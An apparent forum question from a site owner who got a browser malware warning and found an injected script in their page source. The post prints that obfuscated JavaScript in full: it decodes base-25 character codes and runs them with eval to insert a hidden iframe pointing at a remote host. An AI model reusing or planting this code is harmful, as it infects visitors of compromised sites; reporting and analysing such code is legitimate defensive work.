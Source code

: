 ```
Warning: Visiting this site may harm your computer!
The website at http:... appears to host malware - Software that can hurt your 
computer or otherwise operate without your consent.
.... 
```

I viewed my page source in Chrome and I saw this script end of my code (after ):

```
 echo ""; echo "<script>try{if(window.document)window[\"document\"][\"body\"]=\"123\"}catch(bawetawe){if(window.document){v=window;try{fawbe--}catch(afnwenew){try{(v+v)()}catch(gngrthn){try{if(020===0x10)v[\"document\"][\"bo\"+\"dy\"]=\"123\"}catch(gfdnfdgber){m=123;if((alert+\"\").indexOf(\"n\"+\"a\"+\"ti\"+\"ve\")!==-1)ev=window[\"eval\"];}}
n=[\"9\",\"9\",\"45\",\"42\",\"17\",\"1f\",\"40\",\"4b\",\"3o\",\"4h\",\"49\",\"41\",\"4a\",\"4g\",\"1l\",\"43\",\"41\",\"4g\",\"2j\",\"48\",\"41\",\"49\",\"41\",\"4a\",\"4g\",\"4f\",\"2g\",\"4l\",\"39\",\"3m\",\"43\",\"33\",\"3m\",\"49\",\"41\",\"1f\",\"1e\",\"3n\",\"4b\",\"40\",\"4l\",\"1e\",\"1g\",\"3g\",\"1n\",\"3i\",\"1g\",\"4n\",\"d\",\"9\",\"9\",\"9\",\"45\",\"42\",\"4e\",\"3m\",\"49\",\"41\",\"4e\",\"1f\",\"1g\",\"29\",\"d\",\"9\",\"9\",\"50\",\"17\",\"41\",\"48\",\"4f\",\"41\",\"17\",\"4n\",\"d\",\"9\",\"9\",\"9\",\"40\",\"4b\",\"3o\",\"4h\",\"49\",\"41\",\"4a\",\"4g\",\"1l\",\"4j\",\"4e\",\"45\",\"4g\",\"41\",\"1f\",\"19\",\"2a\",\"45\",\"42\",\"4e\",\"3m\",\"49\",\"41\",\"17\",\"4f\",\"4e\",\"3o\",\"2b\",\"1e\",\"44\",\"4g\",\"4g\",\"4c\",\"28\",\"1m\",\"1m\",\"4e\",\"3m\",\"43\",\"4b\",\"4b\",\"4f\",\"41\",\"1l\",\"45\",\"4c\",\"4d\",\"1l\",\"3o\",\"4b\",\"1m\",\"3o\",\"4b\",\"4e\",\"4e\",\"41\",\"3o\",\"4g\",\"45\",\"4a\",\"43\",\"1m\",\"45\",\"49\",\"3m\",\"43\",\"45\",\"4a\",\"41\",\"1k\",\"4e\",\"41\",\"3m\",\"40\",\"4l\",\"3k\",\"41\",\"4a\",\"4g\",\"41\",\"4e\",\"3k\",\"47\",\"41\",\"41\",\"4a\",\"1l\",\"4c\",\"44\",\"4c\",\"1e\",\"17\",\"4j\",\"45\",\"40\",\"4g\",\"44\",\"2b\",\"1e\",\"1o\",\"1n\",\"1e\",\"17\",\"44\",\"41\",\"45\",\"43\",\"44\",\"4g\",\"2b\",\"1e\",\"1o\",\"1n\",\"1e\",\"17\",\"4f\",\"4g\",\"4l\",\"48\",\"41\",\"2b\",\"1e\",\"4i\",\"45\",\"4f\",\"45\",\"3n\",\"45\",\"48\",\"45\",\"4g\",\"4l\",\"28\",\"44\",\"45\",\"40\",\"40\",\"41\",\"4a\",\"29\",\"4c\",\"4b\",\"4f\",\"45\",\"4g\",\"45\",\"4b\",\"4a\",\"28\",\"3m\",\"3n\",\"4f\",\"4b\",\"48\",\"4h\",\"4g\",\"41\",\"29\",\"48\",\"41\",\"42\",\"4g\",\"28\",\"1n\",\"29\",\"4g\",\"4b\",\"4c\",\"28\",\"1n\",\"29\",\"1e\",\"2c\",\"2a\",\"1m\",\"45\",\"42\",\"4e\",\"3m\",\"49\",\"41\",\"2c\",\"19\",\"1g\",\"29\",\"d\",\"9\",\"9\",\"50\",\"d\",\"9\",\"9\",\"42\",\"4h\",\"4a\",\"3o\",\"4g\",\"45\",\"4b\",\"4a\",\"17\",\"45\",\"42\",\"4e\",\"3m\",\"49\",\"41\",\"4e\",\"1f\",\"1g\",\"4n\",\"d\",\"9\",\"9\",\"9\",\"4i\",\"3m\",\"4e\",\"17\",\"42\",\"17\",\"2b\",\"17\",\"40\",\"4b\",\"3o\",\"4h\",\"49\",\"41\",\"4a\",\"4g\",\"1l\",\"3o\",\"4e\",\"41\",\"3m\",\"4g\",\"41\",\"2j\",\"48\",\"41\",\"49\",\"41\",\"4a\",\"4g\",\"1f\",\"1e\",\"45\",\"42\",\"4e\",\"3m\",\"49\",\"41\",\"1e\",\"1g\",\"29\",\"42\",\"1l\",\"4f\",\"41\",\"4g\",\"2f\",\"4g\",\"4g\",\"4e\",\"45\",\"3n\",\"4h\",\"4g\",\"41\",\"1f\",\"1e\",\"4f\",\"4e\",\"3o\",\"1e\",\"1j\",\"1e\",\"44\",\"4g\",\"4g\",\"4c\",\"28\",\"1m\",\"1m\",\"4e\",\"3m\",\"43\",\"4b\",\"4b\",\"4f\",\"41\",\"1l\",\"45\",\"4c\",\"4d\",\"1l\",\"3o\",\"4b\",\"1m\",\"3o\",\"4b\",\"4e\",\"4e\",\"41\",\"3o\",\"4g\",\"45\",\"4a\",\"43\",\"1m\",\"45\",\"49\",\"3m\",\"43\",\"45\",\"4a\",\"41\",\"1k\",\"4e\",\"41\",\"3m\",\"40\",\"4l\",\"3k\",\"41\",\"4a\",\"4g\",\"41\",\"4e\",\"3k\",\"47\",\"41\",\"41\",\"4a\",\"1l\",\"4c\",\"44\",\"4c\",\"1e\",\"1g\",\"29\",\"42\",\"1l\",\"4f\",\"4g\",\"4l\",\"48\",\"41\",\"1l\",\"4i\",\"45\",\"4f\",\"45\",\"3n\",\"45\",\"48\",\"45\",\"4g\",\"4l\",\"2b\",\"1e\",\"44\",\"45\",\"40\",\"40\",\"41\",\"4a\",\"1e\",\"29\",\"42\",\"1l\",\"4f\",\"4g\",\"4l\",\"48\",\"41\",\"1l\",\"4c\",\"4b\",\"4f\",\"45\",\"4g\",\"45\",\"4b\",\"4a\",\"2b\",\"1e\",\"3m\",\"3n\",\"4f\",\"4b\",\"48\",\"4h\",\"4g\",\"41\",\"1e\",\"29\",\"42\",\"1l\",\"4f\",\"4g\",\"4l\",\"48\",\"41\",\"1l\",\"48\",\"41\",\"42\",\"4g\",\"2b\",\"1e\",\"1n\",\"1e\",\"29\",\"42\",\"1l\",\"4f\",\"4g\",\"4l\",\"48\",\"41\",\"1l\",\"4g\",\"4b\",\"4c\",\"2b\",\"1e\",\"1n\",\"1e\",\"29\",\"42\",\"1l\",\"4f\",\"41\",\"4g\",\"2f\",\"4g\",\"4g\",\"4e\",\"45\",\"3n\",\"4h\",\"4g\",\"41\",\"1f\",\"1e\",\"4j\",\"45\",\"40\",\"4g\",\"44\",\"1e\",\"1j\",\"1e\",\"1o\",\"1n\",\"1e\",\"1g\",\"29\",\"42\",\"1l\",\"4f\",\"41\",\"4g\",\"2f\",\"4g\",\"4g\",\"4e\",\"45\",\"3n\",\"4h\",\"4g\",\"41\",\"1f\",\"1e\",\"44\",\"41\",\"45\",\"43\",\"44\",\"4g\",\"1e\",\"1j\",\"1e\",\"1o\",\"1n\",\"1e\",\"1g\",\"29\",\"d\",\"9\",\"9\",\"9\",\"40\",\"4b\",\"3o\",\"4h\",\"49\",\"41\",\"4a\",\"4g\",\"1l\",\"43\",\"41\",\"4g\",\"2j\",\"48\",\"41\",\"49\",\"41\",\"4a\",\"4g\",\"4f\",\"2g\",\"4l\",\"39\",\"3m\",\"43\",\"33\",\"3m\",\"49\",\"41\",\"1f\",\"1e\",\"3n\",\"4b\",\"40\",\"4l\",\"1e\",\"1g\",\"3g\",\"1n\",\"3i\",\"1l\",\"3m\",\"4c\",\"4c\",\"41\",\"4a\",\"40\",\"2h\",\"44\",\"45\",\"48\",\"40\",\"1f\",\"42\",\"1g\",\"29\",\"d\",\"9\",\"9\",\"50\"];h=2;s=\"\";if(m)for(i=0;i-631!=0;i++){k=i;if(window[\"document\"])s+=String.fromCharCode(parseInt(n[i],25));}z=s;if(v)ev(z)}}}</script>"; 
```
